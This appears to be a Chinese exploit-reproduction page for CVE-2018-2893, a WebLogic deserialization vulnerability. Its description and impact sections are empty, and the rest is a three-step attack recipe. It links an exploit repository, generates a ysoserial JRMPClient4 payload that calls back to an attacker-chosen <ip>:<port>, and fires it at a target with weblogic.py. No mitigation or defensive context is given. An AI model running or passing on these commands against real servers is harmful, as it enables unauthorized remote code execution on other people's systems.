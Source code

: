 # CVE-2018-2893

> 原文：[http://book.iwonder.run/0day/Weblogic/（CVE-2018-2893）.html](http://book.iwonder.run/0day/Weblogic/（CVE-2018-2893）.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

[https://github.com/ianxtianxt/CVE-2018-2893](https://github.com/ianxtianxt/CVE-2018-2893)

### Step 1

`java -jar ysoserial-cve-2018-2893.jar`

```
WHY SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 
     JRMPClient3 
     JRMPClient4 
     Jdk7u21     @frohoff 
```

### Step 2

`java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "<ip>:<port>" > poc4.ser`

### Step 3

`python weblogic.py <host> <port> poc4.ser`

